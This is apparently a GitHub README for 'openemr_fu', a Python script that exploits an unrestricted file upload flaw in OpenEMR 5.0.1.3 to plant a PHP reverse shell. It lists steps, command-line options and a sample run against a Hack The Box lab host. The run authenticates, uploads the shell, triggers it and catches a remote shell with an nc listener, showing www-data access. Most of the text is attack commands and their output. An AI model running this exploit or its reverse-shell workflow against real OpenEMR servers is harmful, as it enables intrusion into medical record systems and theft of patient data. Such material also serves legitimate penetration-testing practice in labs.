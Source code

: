 # openemr_fu
Script to facilitate OpenEMR 5.0.1.3 exploitation via an unrestricted File Upload vulnerability 

Step 1: Create a PHP Reverse shell

Step 2: Set up your listener

Step 3: Run openemr_fu

Options:
```
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        Target host
  -u USER, --user USER  OpenEMR Username
  -p PASSWORD, --password PASSWORD
                        OpenEMR password
  -r REVERSE_SHELL, --reverse_shell REVERSE_SHELL
                        Select PHP reverse shell to upload
```

Example:
```
python3 openemr_fu.py -t http://hms.htb -u openemr_admin -p password -r /root/Downloads/ws1.php
[*] Authenticating with user: openemr_admin to http://hms.htb/interface/main/main_screen.php?auth=login&site=default
[*] Uploaded /root/Downloads/ws1.php to http://hms.htb/interface/super/manage_site_files.php in directory: /sites/default/images/
[*] Contacting reverse shell page at: /sites/default/images/ws1.php
```

Receiving the shell: 
```
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.188] 53120

whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
